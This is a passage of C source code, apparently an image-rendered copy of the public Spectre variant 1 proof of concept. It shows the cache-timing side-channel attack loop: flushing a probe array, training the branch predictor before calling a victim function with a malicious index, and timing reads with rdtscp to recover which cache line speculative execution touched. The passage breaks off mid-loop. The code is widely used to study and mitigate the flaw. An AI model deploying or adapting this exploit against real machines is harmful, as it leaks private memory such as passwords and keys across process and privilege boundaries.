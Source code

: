 ``` c

  for (i = 0; i < 256; i++)
    results[i] = 0;
  for (tries = 999; tries > 0; tries--) {

#ifndef NOCLFLUSH
    /* Flush array2[256*(0..255)] from cache */
    for (i = 0; i < 256; i++)
      _mm_clflush( & array2[i * 512]); /* intrinsic for clflush instruction */
#else
    /* Flush array2[256*(0..255)] from cache
       using long SSE instruction several times */
    for (j = 0; j < 16; j++)
      for (i = 0; i < 256; i++)
        flush_memory_sse( & array2[i * 512]);
#endif

    /* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */
    training_x = tries % array1_size;
    for (j = 29; j >= 0; j--) {
#ifndef NOCLFLUSH
      _mm_clflush( & array1_size);
#else
      /* Alternative to using clflush to flush the CPU cache */
      /* Read addresses at 4096-byte intervals out of a large array.
         Do this around 2000 times, or more depending on CPU cache size. */

      for(l = CACHE_FLUSH_ITERATIONS * CACHE_FLUSH_STRIDE - 1; l >= 0; l-= CACHE_FLUSH_STRIDE) {
        junk2 = cache_flush_array[l];
      } 
#endif

      /* Delay (can also mfence) */
      for (volatile int z = 0; z < 100; z++) {}

      /* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
      /* Avoid jumps in case those tip off the branch predictor */
      x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
      x = (x | (x >> 16)); /* Set x=-1 if j&6=0, else x=0 */
      x = training_x ^ (x & (malicious_x ^ training_x));

      /* Call the victim! */
      victim_function(x);

    }

    /* Time reads. Order is lightly mixed up to prevent stride prediction */
    for (i = 0; i < 256; i++) {
      mix_i = ((i * 167) + 13) & 255;
      addr = & array2[mix_i * 512];

    /*
    We need to accuratly measure the memory access to the current index of the
    array so we can determine which index was cached by the malicious mispredicted code.

    The best way to do this is to use the rdtscp instruction, which measures current
    processor ticks, and is also serialized.
    */

#ifndef NORDTSCP
      time1 = __rdtscp( & junk); /* READ TIMER */
      junk = * addr; /* MEMORY ACCESS TO TIME */
      time2 = __rdtscp( & junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
```